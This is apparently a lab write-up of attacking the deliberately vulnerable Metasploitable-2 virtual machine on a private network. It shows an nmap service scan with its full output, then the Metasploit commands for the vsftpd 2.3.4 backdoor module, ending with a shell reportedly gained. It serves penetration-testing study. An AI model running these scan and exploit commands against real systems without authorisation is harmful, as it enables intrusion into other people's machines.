



# 🔍 Metasploitable-2 Write UP🔓🛡

### Getting the IP address of the target machine

I used arp-sca -l to get the local ip of the target machine 

> Target ip -> 192.168.100.8

### Scan the target machine using nmap

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/m3taspl1abl3]
└─$ nmap -sV 192.168.100.8 -o nmap_full_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-18 14:50 EDT
Nmap scan report for 192.168.100.8
Host is up (0.0026s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:CF:4C:27 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds


```

So here I got the many ports open to penetrate. Lets exploit it one by one

### Exploiting FTP
Here the version of ftp on target machine is vsftpd 2.3.4, lets search for any exploits that are available in metasploit console



Here I got the the exploit using the search command in msfconsole, lets use it to exploit the target

```bash

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 


```

here we are ready with payload to exploit the target, now we have to set some parameters to run the exploit

use the `show option` command to get the options 



Here it says we have to set rhost that is target ip, we can use

```bash
set rhost 192.168.100.8
```

and then run/exploit command to execute the payload on target machine



Here our exploit works and we got the reverse tcp shell of the target machine.

